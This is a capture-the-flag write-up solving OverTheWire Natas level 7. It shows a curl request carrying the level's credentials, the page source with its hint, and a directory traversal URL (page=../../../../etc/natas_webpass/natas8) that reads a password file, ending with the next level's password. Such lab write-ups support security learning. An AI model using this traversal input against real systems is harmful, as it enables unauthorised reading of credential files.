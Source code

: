 # Natas Level 7

You can watch the walkthrough for this level here:  
[![YouTube](https://img.shields.io/badge/YouTube-Walkthrough-red?logo=youtube)](https://www.youtube.com/watch?v=lG0Iz9tHdIo&ab_channel=Gabahack)

> This video shows my full process solving (in Spanish) Level 7 from scratch, including the obstacles and mistakes I faced along the way. Some walkthroughs might be longer or shorter depending on the complexity of the level or how quickly I find the solution.

---

## 🔍 Exploration

We start by checking the HTML content of this level using the `curl` command:

```bash
❯ curl -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS  http://natas7.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "bmg8SvU1LizuWjx3y7xkNERkHxGre0GS" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```
This is how the page looks in Mozilla:

![img0](Images/Natas7_0.png)

We see two hyperlinks: **Home** and **About**. Clicking on one of them, for instance Home, we notice the URL changes to: http://natas7.natas.labs.overthewire.org/index.php?page=home

![img1](Images/Natas7_1.png)

If we modify the URL to: http://natas7.natas.labs.overthewire.org/index.php?page=etc/natas_webpass/natas8

We see:

![img2](Images/Natas7_2.png)

## 💣 Exploitation
We can manipulate the page parameter to perform a directory traversal attack and read the password file directly: http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8

And we get the password:

![img1](Images/Natas7_3.png)

## 🔐 Password for Natas 8

xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 

